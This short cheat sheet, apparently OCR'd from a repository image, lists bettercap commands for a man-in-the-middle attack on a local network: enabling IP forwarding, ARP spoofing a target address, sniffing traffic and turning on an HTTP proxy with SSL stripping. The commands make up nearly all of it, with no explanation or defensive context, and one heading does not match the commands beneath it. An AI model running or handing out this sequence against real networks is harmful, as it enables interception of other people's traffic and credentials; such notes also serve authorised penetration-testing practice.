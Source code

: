 Listen network:

Redirect http and https traffic to port 8080:

	• echo "1" > /proc/sys/net/ipv4/ip_forward

	- net.probe on

Active ARP spoofing:

	• sudo bettercap
	• set arp.spoof.targets 10.0.2.4
	• set arp.spoof.fullduplex true
	• arp.spoof on

Active MITM listening:

	- set net.sniff.verbose false
	- net.sniff on

Active proxy:

	- set http.proxy.sslstrip true
	- http.proxy on
